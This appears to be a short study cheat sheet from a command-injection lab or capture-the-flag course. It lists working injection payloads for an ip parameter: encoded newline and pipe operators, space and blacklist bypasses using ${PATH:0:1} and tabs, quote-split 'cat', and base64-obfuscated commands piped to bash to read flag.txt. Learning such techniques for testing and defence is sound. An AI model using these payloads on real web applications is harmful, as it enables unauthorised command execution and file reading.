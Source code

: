 # Command injection 

# Other Injection Operators

- used pipe

```shell

127.0.0.1 %7c ls

```

# Identifying Filters

```shell

ip=127.0.0.1%0als

```

# Bypassing Space Filters

```shell

ip=127.0.0.1%0a{ls,-la}

```

# Bypassing Other Blacklisted Characters

```shell

ip=127.0.0.1%0als%09${PATH:0:1}home

```


# Bypassing Other Blacklisted Characters

```shell

ip=127.0.0.1%0als%09${PATH:0:1}home

1nj3c70r

127.0.0.1%0aca$@t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

```


# Advanced Command Obfuscation

```shell 
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64

bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

```


# skill Assessemnet

```shell

%0ac'a't%09${PATH:0:1}flag.txt

```